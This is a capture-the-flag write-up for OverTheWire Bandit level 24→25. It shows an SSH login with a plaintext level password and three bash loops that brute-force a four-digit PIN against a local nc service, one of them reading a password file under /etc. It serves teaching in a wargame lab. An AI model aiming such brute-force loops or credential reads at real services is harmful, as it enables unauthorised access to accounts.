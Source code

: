
***************************************************************************************

Solution of level 24 -> 25

kali@kali:~$ ssh bandit.labs.overthewire.org -l bandit24 -p2220
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org''s password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.

bandit24@bandit:~$ cd /tmp/
bandit24@bandit:/tmp$ nano basher.sh
Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

#!/bin/bash

pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {1000..10000}
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else
    echo $pass $i| nc localhost 30002
    exit
fi
}
done

////////////////////////////////////////////////////

#!/bin/bash

password=$(cat /etc/bandit_pass/bandit24)

for i in $(seq -w 9999); 
do
    echo "$password $i" | nc localhost 30002 
done

////////////////////////////////////////////////////

#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0..9}{0..9}{0..9}{0..9}
do
    echo $passwd' '$a | nc localhost 30002 >> result &
done

/////////////////////////////////////////////////////


bandit24@bandit:/tmp$ ./basher.sh
**********************************
